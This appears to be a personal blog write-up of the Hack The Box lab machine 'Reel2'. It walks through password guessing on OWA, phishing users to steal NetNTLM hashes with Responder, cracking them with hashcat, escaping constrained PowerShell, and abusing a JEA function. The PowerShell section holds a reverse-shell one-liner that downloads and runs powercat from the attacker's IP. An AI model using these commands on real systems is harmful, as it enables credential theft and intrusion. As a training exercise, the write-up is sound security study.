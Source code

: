Title: Reel2 writeup hackTheBox - DarkRider88
Date: 18/03/2021
Description: In this box we are trying to enumerate a service collect some users and make a wordlist and then launcing our phishing attack against all the users to get the valid NTLM hash through memory leak.
Image: /assets/images/Reel2.png

## Enumeration

port 443 is accesible
```
/public
```

on port 8080
```
sven - summer is too hot this year 2020
username: svensson

```

Valid username
```
S.svensson
which have summer in its password
```
try to login to https://ip/owa/auth

```
S.svensson: Summer2020
```

After login we see there are 10-12 emails in the address book.
Let's go to fishing.
select all and send a email..

phishing will be done with NTLM hash stealing with responder
https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes

Download Responder and send your ip address to the users.

**bug: the user is nowhere: use k.svensson to send the email with your ip**

crack the hash with hashcat
```bash
hashcat -m 5600 hash wordlist

```

```creds
k.svensson: kittycat1
```

**Evil-winrm will not work**

Run powershell in kali and enter following commands

```bash
sudo apt-get install powershell
sudo apt-get install gss-ntlmssp

pwsh
$session = New-PSSession -Computer 10.10.10.210  -Authentication Negotiate -Credential k.svensson 

Enter-PSSession $session

```


### Escaping powershell

> Get-Command ( it list all the available commands )
> so we are going to define a function whose name will be on of the available commands.


```bash
function Get-Help { whoami }   # defining the function

Get-Help 	# calling it 
```

Getting reverse shell

```bash
function Get-Help { powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.107:8000/powercat.ps1');powercat -c 10.10.14.107 -p 1234 -e cmd" }
```






## Root

in the \Users\Documents there is a sticky notes link it means there is some sticky notes on the desktop.

checking the 
C:\Users\k.svensson\AppData\Roaming\stickynotes\000003.log



```
jea_test_account: Ab!Q@vcg^%@#1
```

to login we need to convert this password into secure string and then pass to New-pssesion
https://duffney.io/addcredentialstopowershellfunctions/

```
$password = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential ("jea_test_account", $password)

Enter-PSSession -Computer 10.10.10.210 -Credential $Cred -ConfigurationName jea_test_account -Authentication Negotiate
```
### just enough administration
Now in the documents there were two files .. reading those 
there is function of check-file which is available to jea_test_account after login ( Get-Commands)

In file jea_test_account.psrc
```bash
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }
```

Thas it Rooted
